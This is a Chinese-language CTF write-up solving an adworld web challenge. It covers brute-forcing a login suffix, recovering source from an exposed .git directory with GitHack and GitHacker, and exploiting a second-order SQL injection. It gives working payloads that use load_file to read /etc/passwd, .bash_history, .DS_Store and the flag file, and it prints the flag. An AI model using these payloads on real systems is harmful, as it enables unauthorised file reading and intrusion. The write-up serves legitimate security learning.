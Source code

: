 # comment

[题目地址](https://adworld.xctf.org.cn/challenges/details?hash=f840c66d-a402-4cba-a7db-e07f6f5cd5e3_2)

做不出来一道题只需要不知道一个知识点就好。

进到网站，是一个留言界面。写句话测试一下吧，提示要登录。登录框内容似乎在提示什么。

- zhangwei<br>zhangwei***

题目提示是sql，我就在这里用sqlmap测试了一会，没东西。不会用户名和密码就是提示的内容吧？尝试用户名zhangwei，密码zhangwei*\*\*，不行。只能说我太天真了，密码不是zhangwei***，这代表了最后3位要爆破。bp intruder直接冲，得到后面3位是666。大佬们提示这种情况一般末尾都是数字，所以先试数字会比较快。

然而登录了一点用都没有。哪有sql啊，登录框是最可能有sql的地方，但是没有。随便发了个帖测试一下，没东西。发帖处是剩下的可能性中最有可能的了，要是能知道源码就简单很多了。记得做之前的题提到git泄露源码，扫一下目录，发现真的有.git。拿出之前积累的脚本GitHack看看有啥。

- python3 GitHack.py http://61.147.171.105:61388/.git/

```php
<?php
include "mysql.php";
session_start();
if($_SESSION['login'] != 'yes'){
    header("Location: ./login.php");
    die();
}
if(isset($_GET['do'])){
switch ($_GET['do'])
{
case 'write':
    break;
case 'comment':
    break;
default:
    header("Location: ./index.php");
}
}
else{
    header("Location: ./index.php");
}
?>
```

你这源码有问题吧？不会了，看[wp](https://blog.csdn.net/hxhxhxhxx/article/details/107937982)。原来是要用更牛逼的git脚本[GitHacker](https://github.com/wangyihang/githacker)。跟着wp走，恢复了真正的源码。

```php
<?php
include "mysql.php";
session_start();
if($_SESSION['login'] != 'yes'){
    header("Location: ./login.php");
    die();
}
if(isset($_GET['do'])){
switch ($_GET['do'])
{
case 'write':
    $category = addslashes($_POST['category']);
    $title = addslashes($_POST['title']);
    $content = addslashes($_POST['content']);
    $sql = "insert into board
            set category = '$category',
                title = '$title',
                content = '$content'";
    $result = mysql_query($sql);
    header("Location: ./index.php");
    break;
case 'comment':
    $bo_id = addslashes($_POST['bo_id']);
    $sql = "select category from board where id='$bo_id'";
    $result = mysql_query($sql);
    $num = mysql_num_rows($result);
    if($num>0){
    $category = mysql_fetch_array($result)['category'];
    $content = addslashes($_POST['content']);
    $sql = "insert into comment
            set category = '$category',
                content = '$content',
                bo_id = '$bo_id'";
    $result = mysql_query($sql);
    }
    header("Location: ./comment.php?id=$bo_id");
    break;
default:
    header("Location: ./index.php");
}
}
else{
    header("Location: ./index.php");
}
?>
```

sql注入肯定要看sql语句。发现了二次注入标志：addslashes。addslashes会处理输入的数据，让插入时不会出现sql注入漏洞。可是这个addslashes有点掩耳盗铃的意思了，它只是让插入时没有漏洞，真正存到数据库里的数据仍然保持原样。意味着只要再读取数据的时候，之前的sql payload就会爆发。这里满足了两个条件：addslashes和后续读取。这种注入有个名字——二次注入。

二次注入肯定不能一次就把数据泄露出来。根据源码的write和comment分区，加上自己的实验，write在comment之前。所以我们要在write区埋下炸弹，comment区配合触发。write区对应发帖，comment区对应详情中的留言。先看comment区的，毕竟泄露的信息从这里出来。

```php
    $category = mysql_fetch_array($result)['category'];
    $content = addslashes($_POST['content']);
    $sql = "insert into comment
            set category = '$category',
                content = '$content',
                bo_id = '$bo_id'";
    $result = mysql_query($sql);
```

category是之前发帖时可以决定的，content在category的下面，且会显示。sql的思路之一不就是闭合吗，那闭合内容要在回显的上面。要在category处搞事情。这题不能使用常规的爆库爆字段什么的，要用sql自带的load_file读取文件。看看下面这个payload。

- ',content=(select( load_file('/etc/passwd'))),/*

这个放在发帖处的category栏。使用/*是因为下面comment的sql是多行，平时用的#是单行。其他的例如title，content随便填。然后点进详情，补上最后的导火线。

- */#

为什么这样可以呢？来看看现在的sql语句。

```php
    $sql = "insert into comment
            set category = '',content=(select( load_file('/etc/passwd'))),/*',
                content = '*/#',
                bo_id = '$bo_id'";
```

我们自己构造了content，同时用多行注释符将原本的content注释掉了，那显示的内容就是我们想要读取的内容了。看/etc/passwd是为了知道当前www用户用的是什么命令解释器，再读取命令的历史记录就能知道更多信息了。

- ',content=(select (load_file('/home/www/.bash_history'))),/*
- */#
  > cd /tmp/ unzip html.zip rm -f html.zip cp -r html /var/www/ cd /var/www/html/ rm -f .DS_Store service apache2 start

把.DS_Store删掉了。.DS_Store也是能泄露东西的好玩意，使用这个[脚本](https://github.com/gehaxelt/Python-dsstore/blob/master/main.py)来知道有什么藏起来的文件。读取一下。

- ', content=(select hex(load_file('/tmp/html/.DS_Store'))),/*
- */#

输出就不放了，太长了。用hex编码的原因是直接读取出不来，可能是有不可打印字符。用上面提到的脚本得知flag的名字为flag_8946e1ff1ee3e40f.php。最后一步了。

- ',content=(select hex(load_file('/var/www/html/flag_8946e1ff1ee3e40f.php'))),/*
- */#
  > 3C3F7068700A0924666C61673D22666C61677B30646431346161653831643934393034623334393231313765326133643464667D223B0A3F3E0A

hex解码得到flag。

- ### Flag
  > flag{0dd14aae81d94904b3492117e2a3d4df}